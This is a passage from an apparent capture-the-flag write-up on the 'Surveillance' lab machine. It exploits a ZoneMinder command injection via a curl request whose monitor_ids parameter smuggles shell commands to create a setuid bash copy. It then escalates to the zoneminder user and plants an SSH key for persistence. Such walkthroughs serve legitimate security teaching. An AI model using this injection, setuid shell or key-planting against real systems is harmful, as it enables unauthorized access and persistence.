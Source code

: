 ```

oxdf@hacky$ curl http://localhost:8888/index.php -d "view=snapshot&action=create&monitor_ids[0][Id]=0;cp /bin/bash /tmp/0xdf;chmod 6777 /tmp/0xdf&__csrf_magic=${CSRF}"

```

From the shell as matthew:

```

matthew@surveillance:~$ ls -l /tmp/0xdf 
-rwsrwsrwx 1 zoneminder zoneminder 1396520 Apr 18 20:45 /tmp/0xdf

```

Running with with `-p` returns a shell with effective ids of zoneminder:

```

matthew@surveillance:~$ /tmp/0xdf -p
0xdf-5.1$ id
uid=1000(matthew) gid=1000(matthew) euid=1001(zoneminder) egid=1001(zoneminder) groups=1001(zoneminder),1000(matthew)

```

### Upgrade to SSH

I like to have a shell fully as the user I’m working as, so I’ll get a shell over SSH. There’s no `.ssh` directory in `/home/zoneminder`, so I’ll add one:

```

0xdf-5.1$ ls -la
total 24
drwxr-x--- 3 zoneminder zoneminder 4096 Apr 18 20:45 .
drwxr-xr-x 4 root       root       4096 Oct 17  2023 ..
lrwxrwxrwx 1 root       root          9 Nov  9 12:46 .bash_history -> /dev/null
-rw-r--r-- 1 zoneminder zoneminder  220 Oct 17  2023 .bash_logout 
-rw-r--r-- 1 zoneminder zoneminder 3771 Oct 17  2023 .bashrc
-rw-r--r-- 1 zoneminder zoneminder  807 Oct 17  2023 .profile
drwxrwxr-x 2 zoneminder zoneminder 4096 Apr 18 20:45 .ssh

```

It’s important that my shell has both effective user and group ids as zomeinder, or I won’t be able to set the permissions correctly:

```

0xdf-5.1$ chmod 700 .ssh/
0xdf-5.1$ ls -la
total 24
drwxr-x--- 3 zoneminder zoneminder 4096 Apr 18 20:45 .
drwxr-xr-x 4 root       root       4096 Oct 17  2023 ..
lrwxrwxrwx 1 root       root          9 Nov  9 12:46 .bash_history -> /dev/null
-rw-r--r-- 1 zoneminder zoneminder  220 Oct 17  2023 .bash_logout 
-rw-r--r-- 1 zoneminder zoneminder 3771 Oct 17  2023 .bashrc
-rw-r--r-- 1 zoneminder zoneminder  807 Oct 17  2023 .profile
drwx------ 2 zoneminder zoneminder 4096 Apr 18 20:45 .ssh
0xdf-5.1$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > .ssh/authorized_keys
0xdf-5.1$ chmod 600 .ssh/authorized_keys

```
